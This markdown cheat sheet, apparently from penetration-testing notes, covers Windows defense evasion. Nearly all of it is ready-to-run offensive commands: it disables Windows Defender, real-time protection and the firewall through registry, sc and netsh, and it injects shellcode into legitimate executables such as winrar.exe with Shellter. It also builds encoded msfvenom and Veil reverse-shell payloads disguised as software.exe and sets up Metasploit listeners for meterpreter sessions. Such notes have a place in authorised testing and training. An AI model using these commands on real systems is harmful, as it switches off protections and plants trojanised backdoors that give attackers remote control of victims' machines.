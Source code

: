 # Defense Evasion

## Enumerate Defenses

***

### Enumerate Antivirus

To list installed antivirus products on the system.

```jsx
WMIC /Node:localhost /Namespace:\\\\root\\SecurityCenter2 Path AntivirusProduct Get displayName
```

### Enumerate Firewall Configuration

To view the Windows Firewall configuration

```jsx
netsh advfirewall firewall dump
```

Alternatively, you can use:

```jsx
netsh firewall show state netsh firewall show config
```

### Enumerate Windows Defender Status

To check the status of Windows Defender

```jsx
PS C:\\\\> Get-MpComputerStatus
```

## Disable Windows Defenses

***

### Disable Windows Defender

To disable Windows Defender

```jsx
sc config WinDefend start= disabled sc stop WinDefend Set-MpPreference -DisableRealtimeMonitoring $true
```

To disable Windows Defender scans for downloaded and attachment files

```jsx
PS C:\\\\> Set-MpPreference -DisableRealtimeMonitoring $true Get-MpComputerStatus PS C:\\\\> Set-MpPreference -DisableIOAVProtection $true
```

### Disable Real-Time Protection

To disable real-time protection in Windows Defender

```jsx
reg delete "HKLM\\\\Software\\\\Policies\\\\Microsoft\\\\Windows Defender" /f reg add "HKLM\\\\Software\\\\Policies\\\\Microsoft\\\\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f reg add "HKLM\\\\Software\\\\Policies\\\\Microsoft\\\\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```

### Disable Windows Firewall

To disable Windows Firewall for all profiles

```jsx
Netsh Advfirewall show allprofiles NetSh Advfirewall set allprofiles state off
```

## Disable Antivirus

***

```jsx
reg delete "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /f
reg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```

## Antivurs Evasion

***

### Dynamic Shellcode Injection with Shellter

***

Dynamic shellcode injection with Shellter is a technique used to inject shellcode into a Windows executable, allowing for covert execution of malicious code.

#### Install Shelter

Search for Shellter using `apt-cache`

```jsx
apt-cache search shellter
```

Install Shellter using `apt`

```jsx
sudo apt install shellter
```

Open a terminal and run Shellter

```jsx
shellter
```

#### Configure Shellter

1. In Shellter, choose "`Auto`" mode for automatic configuration.
2. Select an original PE (Portable Executable) file as the target for injection. Examples include executables like `winrar.exe` or `spotify.exe`.
3. Enable "`Stealth Mode`" for covert execution.
4. Choose a payload for your shellcode. For example, you can select

#### Configure Multi/Handler Listener

Open Metasploit

```jsx
msfconsole
```

Use the multi/handler module

```jsx
use multi/handler
```

Set the payload to match the one selected in Shellter:

```jsx
set payload windows/meterpreter/reverse_tcp
```

Set the `LHOST` and `LPORT` to match your listener's IP address and port:

```jsx
set LHOST <your_IP> set LPORT <your_port>
```

Optionally, you can set an AutoRunScript to migrate to another process post-exploitation

```jsx
set AutoRunScript post/windows/manage/migrate
```

Start the Metasploit listener

```jsx
run
```

#### Transfer Payload to Target

Transfer the executable (with injected shellcode) to the target system using a secure method. Ensure that the target has the necessary permissions to execute the file.

#### Execute Payload

On the target system, execute the payload

```jsx
[path_to_executable]/[executable_name].exe
```

The payload will attempt to establish a connection back to your Metasploit listener, providing you with a meterpreter shell.

### AV Evasion with MSFvenom (PE Injection)

***

To perform PE injection with MSFvenom, follow these steps:

Generate a payload using MSFvenom. For example, we'll create a reverse shell payload with the `windows/shell_reverse_tcp` payload, set the listening host and port (`LHOST` and `LPORT`), specify the format as `exe`, choose an encoder (`x86/shikata_ga_nai`), set the number of iterations (`i`), select the target executable to inject into (`x`), and specify the output file (`o`).

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.4 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 10 -x /usr/share/windows-resources/binaries/plink.exe -o ishell.exe
```

This command generates an executable (`ishell.exe`) with the injected payload. You can also generate the payload directly from the `msfconsole`. Start `msfconsole` and use the following commands.

```jsx
generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

This command generates the executable (`shell_reverse_msf_encoded_embedded.exe`) with the encoded payload.

### AV Evasion with Veil

***

Veil is a popular tool used for AV (Antivirus) evasion by generating payloads with various techniques to bypass antivirus detection. Here's a step-by-step guide on using Veil for AV evasion:

Start Veil

```jsx
veil
```

**Activate Veil**

```jsx
use 1
```

Veil provides a list of evasion methods and payloads. In this case, we're using option 1.

Check Available Payloads. To see a list of available payloads, use:

```jsx
list
```

Select a Payload. \*\*\*\*Choose a payload by its number. For example, to select payload 22, use:

```jsx
Use 22
```

Change Your LHOST Variable. The `LHOST` variable represents the IP address of your listener (Metasploit or other C2). Update it according to your setup.

Generate the Payload and Specify a File Name. Use the `generate` command to generate the payload. Veil will ask for a file name; you can specify one.

```jsx
generate
```

Transfer Payload to the Targe**t.** Transfer the generated payload to the target system through a secure method (e.g., SCP, SMB, or HTTP).

Set Up a Multi/Handler Listener\*\*.\*\* In Metasploit, you can set up a multi/handler listener to receive the incoming connections from the payload. Configure it with the appropriate payload and options.

```jsx
use multi/handler set payload windows/meterpreter/reverse_tcp set AutoRunScript post/windows/manage/migrate
```

Execute the Payload on the Target. \*\*\*\*Execute the payload on the target system. When the payload connects back to the handler, you will gain access to the target.

***

### AV Evasion with MSFvenom Encoders

***

MSFvenom, a part of Metasploit, provides a versatile way to generate payloads with different encoders for AV evasion. Here are steps to create payloads with MSFvenom and its encoders:

Generate a Payload with an Encoder. Use MSFvenom to generate a payload with a specific encoder. In this example, we use the `x86/shikata_ga_nai` encoder for AV evasion. Specify your `LHOST` and `LPORT` as needed.

```jsx
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.222.128 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o software.exe
```

You can experiment with different encoders to find one that is not detectable by antivirus software. Use the `--list encoders` option to see the available encoders:

```jsx
msfvenom --list encoders
```

Transfer the generated payload to the target system and execute it. When the payload connects back to your listener, you will gain access to the target.

